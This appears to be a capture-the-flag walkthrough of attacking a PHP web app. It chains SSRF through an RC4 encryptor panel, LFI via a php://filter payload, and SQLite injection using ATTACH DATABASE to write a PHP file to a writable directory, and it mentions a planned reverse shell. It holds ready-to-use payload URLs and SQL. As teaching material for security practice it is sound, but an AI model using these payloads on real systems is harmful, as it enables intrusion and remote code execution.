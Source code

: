 After logged in, See a encryption panel. Make sure you use RC4 at the very first time. RC4 is an old encryption method which can be seen as a "reverse-able" algorithm in some way since it is based on XOR. So, submit twice to encryptor panel using the same content, you'll get original text.

Then here, we could try to use `http://127.0.0.1/dev/` to get the `/dev` that we can't access remotely, you'll see a todo page, check it. Todo page tells you:

- There's a global writable folder
- There's a dangerous page called `sqlite_test_page`
- Dangerous PHP functions are disabled

Here, we use php filter to achieve LFI in param `view` of `index.php`, which force the input to be converted to base64 before input into any function: `php://filter/convert.base64-encode/resource=sqlite_test_page`, the final payload here is: `http://127.0.0.1/dev/index.php?view=php://filter/convert.base64-encode/resource=sqlite_test_page`. Use this payload, change the value of after `resource=`, you will get a full source code dump of the page you just found using gobuster, in `index.php`, you'll get a USELESS credential; in `encrypt.php`, you will find the encrypt mode and key it used for encryption, input it to cyberchef might boost you up. 

Analyze the source code of `sqlite_test_page.php`, you should get:

- `/dev/d9e28afcf0b274a5e0542abb67db0784/` is globally writable
- `bookid` param can be injected via SQL statement
- `no_results` param should be set to `1` or `true`, so your SQL statement will be executed

Okay, so let's do something to upload a php reverse shell. Cuz `/dev` can only be accessed in localhost, not remote, and this encryptor panel is running with curl, only GET method is applicable. We try to let it do a bash reverse shell to us...

The SQL statement about the part you uploaded should be like this: 

```
1; ATTACH DATABASE `/var/www/html/dev/d9e28afcf0b274a5e0542abb67db0784/lo3l.php` AS lol; CREATE TABLE lol.pwn (dataz text); INSERT INTO lol.pwn (dataz) VALUES ('<?php phpinfo(); ?>');
```

That will allow SQLite 3 to write database called `lo3l.php`(If not exist, create automatically), content is `phpinfo()` php code. The relative path will also work here, note: current working directory is: `/dev`

So urlencode the param before submit, the final URL like this:

```
http://127.0.0.1/dev/index.php?view=sqlite_test_page&no_results=true&bookid=1%3b+ATTACH+DATABASE+%60%2fvar%2fwww%2fhtml%2fdev%2fd9e28afcf0b274a5e0542abb67db0784%2flo3l.php%60+AS+lol%3b+CREATE+TABLE+lol.pwn+(dataz+text)%3b+INSERT+INTO+lol.pwn+(dataz)+VALUES+(%27%3c%3fphp+phpinfo()%3b+%3f%3e%27)%3b
```

Submit it into encryptors, and Using encryptor to access `http://127.0.0.1/dev/d9e28afcf0b274a5e0542abb67db0784/lo3l.php` this time, you'll get a bunch of output which was base64-encoded after encrypted with RC4. Decode and decrypt, get phpinfo page.

Disabled Functions: `system,dl,passthru,exec,shell_exec,popen,escapeshellcmd,escapeshellarg,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,`, WebRoot: `/var/www/html`
